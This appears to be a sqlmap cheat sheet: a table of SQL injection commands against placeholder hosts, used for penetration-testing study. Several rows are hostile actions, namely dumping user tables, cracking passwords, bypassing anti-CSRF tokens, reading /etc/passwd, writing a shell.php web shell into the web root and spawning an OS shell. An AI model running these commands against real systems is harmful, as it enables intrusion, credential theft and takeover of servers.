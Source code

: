 | **Command**                                                  | **Description**                                             |
| ------------------------------------------------------------ | ----------------------------------------------------------- |
| `sqlmap -h`                                                  | View the basic help menu                                    |
| `sqlmap -hh`                                                 | View the advanced help menu                                 |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`   | Run `SQLMap` without asking for user input                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`  | `SQLMap` with POST request                                  |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'` | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                          | Passing an HTTP request file to `SQLMap`                    |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'` | Specifying a cookie header                                  |
| `sqlmap -u www.target.com --data='id=1' --method PUT`        | Specifying a PUT request                                    |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                             |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch` | Specify verbosity level                                     |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"` | Specifying a prefix or suffix                               |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`             | Specifying the level and risk                               |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                        |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb` | Table enumeration                                           |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                       |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --schema`          | Database schema enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`  | Searching for data                                          |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch` | Password enumeration and cracking                           |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                      |
| `sqlmap --list-tampers`                                      | List all tamper scripts                                     |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba` | Check for DBA privileges                                    |
| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"` | Reading a local file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                              |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`        | Spawning an OS shell                                        |